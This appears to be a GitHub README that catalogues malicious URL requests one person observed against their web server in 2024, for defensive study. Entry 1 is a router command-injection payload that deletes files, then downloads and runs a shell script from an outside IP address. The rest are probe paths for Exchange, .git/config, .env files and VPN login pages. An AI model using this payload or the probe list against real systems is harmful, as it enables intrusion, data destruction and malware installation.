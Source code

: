 # h@ck-attempts - 2024
URL injecting attempts to watch out for...
- I do not support these actions. This is used for studying and observing.
- Use the ```is-file-on-server.html``` to determine if you have these files on your server ( Must add paths on your own ).
## ATTEMPTS & FILE SCANS:
```
1. ../cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.156.8.244%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)

2. ../autodiscover/autodiscover.json?@zdi/Powershell

3. ../owa/auth/x.js

4. ../backup/.git/config

5. ../log/.git/config

6. ../doc/.git/config

7. ../autodiscover/autodiscover.json?@1337.com/owa/?&Email=autodiscover/autodiscover.json%3F@1337.com

8. ../Telerik.Web.UI.WebResource.axd?type=rau

9. ../WebInterface/

10. ../sugar_version.json

11. ../icons/sphere1.png

12. ../static/historypage.js

13. ../cgi-bin/authLogin.cgi

14. ../remote/login

15. ../sitecore/shell/sitecore.version.xml

16. ../js/NewWindow_2_all.js

17. ../cf_scripts/scripts/ajax/ckeditor/ckeditor.js

18. ../showLogin.cc

19. ../webfig/

20. ../cgi-bin/config.exp

21. ../solr/    ( Solr is an open-source enterprise-search platform, written in Java. )

22. ../api/session/properties

23. ../.env

24. ../owa/auth/logon.aspx

25. ../Temporary_Listen_Addresses

26. ../ews/exchanges/

27. ../ews/exchange%20/

28. ../ews/autodiscovers/

29. ../autodiscover/autodiscover%20/

30. ../ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application ( Microsoft Exchange Server designed for eDiscovery ( electronic discovery ) purposes )

31. ../actuator/health

32. ../+CSCOE+/logon.html

33. ../dana-na/auth/url_default/welcome.cgi

34. ../global-protect/login.esp

```
## Shadow Server Scans ( Unknown Reason ) ( shadowserver.org )
```
1. ../vpn/index.html

2. ../geoserver/web/

3. ../.git/config

4. ../favicon.ico
```
## Linkedin Scans ( Not Hacks )
```
1. ../wp-content/plugins/chp-ads-block-detector/assets/img/icon.png

2. ../robots.txt
```

## Google Scans ( Not Hacks )
```
1. ../xmlrpc.php?rsd

2. ../wlwmanifest.xml  ( Microsoft Live Writer )
```
